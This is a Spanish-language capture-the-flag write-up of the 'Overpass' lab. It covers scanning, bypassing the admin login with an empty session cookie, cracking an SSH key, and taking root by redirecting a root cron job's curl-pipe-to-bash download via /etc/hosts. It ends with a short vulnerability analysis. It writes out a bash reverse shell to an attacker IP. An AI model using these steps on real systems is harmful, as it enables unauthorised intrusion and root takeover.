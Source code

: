 # Overpass
Room bastante interesante que explota conceptos interesantes como Broken Auth y con un Privesc poco común

Interesante: BrokenAuth , 
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
```

## Enum
### HTTP 
En el fuente de la main page podemos encontar el siguiente mensaje 
```
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
```
Probablemente haga alusión al cifrado Cesar, puede que mas adelante nos haga falta

#### Gobuster
```
/aboutus (Status: 301)
/admin (Status: 301) -> Login Portal
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
```

Si observamos el codigo javascript usado para el login vemos que podemos hacer un bypass simplemente dejando la cookie sin valor, usando el siguiente snippet en la consola del navegador
```
Cookies.set("SessionToken", "")
```
Esto nos lleva a una zona de administración donde podemos ver una clave SSH para el usuario james, crackeamos la clave con ssh2john y vemos que la password para usarla es james13, con esto nos logeamos sin mas problema

## Privesc
En el crontab encontramos la siguiente tarea
```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
Para poder escalar usando esto necesitamos cambiar ese script por uno nuestro, esto lo podemos lograr cambiando la IP correspondiente a overpass.thm por la nuestra
Editamos /etc/hosts para cambiar la IP de overpass.thm por la nuestra , abrimos un servidor de python en local y creamos este script en el PATH especificado
```bash
#!/bin/bash
bash -i >& /dev/tcp/IP/8080 0>&1
```

Y con esto solo quedaria abrir un listener en nuestra máquina y coger la root flag 
# Analisís de la intrusión
### Vuln auth method
Para gestionar el login el script utilizado es vulnerable ya que permite acceder con una cookie vacia bypasseando el login
### Information Leak
En el servidor podemos encontrar informacion sensible como claves ssh expuestas permitiendo que al bypassear la autenticación obtengamos acceso completo a la máquina
### Bad permisions on /etc/hosts
/etc/host es modificable por usuarios sin privilegios cambiando el host del cronjob por otro

# Soluciones
### Vuln auth method
No controlo suficiente javascript para parchear el metodo, pero trasladar esta autenticación al server side probablemente mejoraría la seguridad del metodo de login
